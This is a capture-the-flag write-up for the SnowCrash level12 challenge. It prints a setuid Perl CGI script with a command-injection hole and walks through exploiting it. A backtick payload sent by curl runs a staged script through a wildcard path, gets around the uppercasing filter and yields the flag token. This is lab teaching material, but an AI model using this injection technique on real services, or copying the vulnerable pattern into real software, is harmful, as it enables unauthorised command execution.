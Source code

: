 # level12

- We login as user level11.
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- A perl script has been left to us, let's `cat level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost:4646. It takes two parameters that are passed to the `t()` function, the return of this latter is used to `print()` a message accordingly.


- The `t()` function will change all lowercase characters contained in its first parameter to uppercase, then it will erase any character following a space. The resulting string (`$xx`) will be sent to `egrep "^$xx" /tmp/xd 2>&1`.


- Because of `$xx =~ tr/a-z/A-Z/;` we cannot directly send `x=;getflag>/tmp/level12.flag` because all our characters will be transformed into uppercase, so:
```
level12@SnowCrash:~$ ss -tunlp | grep 4646
tcp    LISTEN     0      128                   :::4646                 :::*
```

```
level12@SnowCrash:~$ echo "getflag > /tmp/level12.flag" > /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ curl -X POST -d "x=\`/*/EXPLOIT\`" http://127.0.0.1:4646
```

```
level12@SnowCrash:~cat /tmp/level12.flag46
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
level12@SnowCrash:~$ su level13
Password:g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```
